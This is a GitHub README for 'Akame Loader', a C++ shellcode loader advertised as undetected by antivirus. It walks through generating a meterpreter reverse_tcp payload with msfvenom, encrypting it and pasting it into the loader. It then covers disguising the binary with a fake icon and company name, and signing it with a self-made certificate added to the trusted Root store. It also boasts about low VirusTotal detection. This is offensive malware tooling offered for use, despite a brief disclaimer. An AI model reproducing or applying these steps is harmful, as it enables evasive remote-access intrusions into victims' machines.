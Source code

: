 <h1 align="center">Akame Loader</h1>
<p align="center">
  <img width="250" height="250" src="https://raw.githubusercontent.com/Wtf-Is-This-x1337/Akame-Loader/main/Images/akame.png" width="250" height="250">
</p>
<h4 align="center">An open source, UD shellcode loader written in C++17</h4>

## Details

## Build instructions
1. Generate a shellcode with metasploit
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shellcode.bin <br>
2. Encrypt your shellcode with encrypt.exe 
mv shellcode.bin \Akame Loader\x64\Release\Resources\
cd \Akame Loader\x64\Release\Resources\
(optional) encrypt --help
encrypt.exe -l cpp -m shellcode.bin -e random -o cli
3. Copy the output and paste it under the "payload" comment
Paste your IV key, your KEY and your BUFF into the existent vectors
4. Change the resources
Add your icon, your company name, etc.
5. Build the project
Language standard: ISO C++17
Configuration: Release
Platform: x64
Runtime Library: Multi-Threaded (/MT)
SubSystem: Windows
Dependencies: user32.lib;advapi32.lib;crypt32.lib;
6. Add a certificate to your executable
move Akame.exe Resources && cd Resources
makecert.exe -r -pe -n "CN=Akame CA" -ss CA -sr CurrentUser -a sha256 -cy authority -sky signature -sv AkameCA.pvk AkameCA.cer
certutil -user -addstore Root AkameCA.cer
makecert.exe -pe -n "CN=Akame Cert" -a sha256 -cy end -sky signature -ic AkameCA.cer -iv AkameCA.pvk -sv AkameCert.pvk AkameCert.cer
pvk2pfx.exe -pvk AkameCert.pvk -spc AkameCert.cer -pfx AkameCert.pfx
signtool.exe sign /v /f AkameCert.pfx /t http://timestamp.digicert.com/?alg=sha1 Akame.exe
! Change "Akame.exe" to whatever your executable name is

## VirusTotal Scan (3/71 security vendors and no sandboxes)
I uploaded the loader to Virus Total because I don't want this to be used for malicious purposes!<br>
The shellcode used was generated with metasploit (payload: windows/x64/meterpreter/reverse_tcp) and encrypted by \resources\encrypt.exe.<br>
The loader was build with VS22 and signed with a sha1 certificate

![Virus Total](https://raw.githubusercontent.com/Wtf-Is-This-x1337/Akame-Loader/main/Images/virustotal.png)

Link: https://www.virustotal.com/gui/file/68e6a25457093584a043ed3f721be9bc9b6456edd792cb4e30054e85bdc4119f?nocache=1

## License
MIT License

Copyright (c) 2022 WtfIsThis

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
